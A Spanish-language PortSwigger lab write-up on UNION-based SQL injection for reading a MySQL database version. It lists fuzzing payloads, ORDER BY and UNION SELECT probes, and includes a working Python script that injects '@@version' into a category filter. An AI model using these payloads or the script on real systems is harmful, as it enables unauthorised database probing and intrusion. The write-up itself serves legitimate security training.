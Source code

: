 ```yaml
---
title: "08 SQLi attack, querying the database type and version on MySQL & Microsoft"
collection: publications
category: portswigger
permalink: /publications/08_SQLi attack, querying the database type and version on MySQL & Microsoft
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en bases de datos de Microsoft y MySQL.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi attack, querying the database type and version on MySQL & Microsoft'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

Ingresamos una lista de payloads y ejecutamos con Burpsuite

```javascript
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator
@variable	local variable
@@variable	global variable
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/intruder.png)

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado.png)

Y probamos uno de los resultados

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado2.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1#
' ORDER BY 2#
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD MySQL necesitamos comentar con #.
Los 2 campos son de tipo `String`

```javascript
' UNION SELECT 'A', NULL#
' UNION SELECT NULL, 'A'# 
' UNION SELECT 'A', 'A'#
```

![String]({{site.url}}/images/SQLi/sqli-8/campos string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD MySQL

```javascript
' UNION SELECT 'A', @@version#
```

![DB version]({{site.url}}/images/SQLi/sqli-8/version.png)

## Aprobado 

![Aprobado]({{site.url}}/images/SQLi/sqli-8/Aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def explot_sqli_version(url):
    path = "/filter?category=Gifts"
    sql_payload = "' UNION SELECT @@version, NULL#"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    soup = BeautifulSoup(res, 'html.parser')
    version = soup.find(string=re.compile(r'.*\d{1,2}\.\d{1,2}\.\d{1,2}.*'))
    if version is None:
        return False
    else:
        print("[-] The database version is: " + version)
        return True

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of  the database...")
    if not explot_sqli_version(url):
        print("[-] Unable to dump the database version.")
```
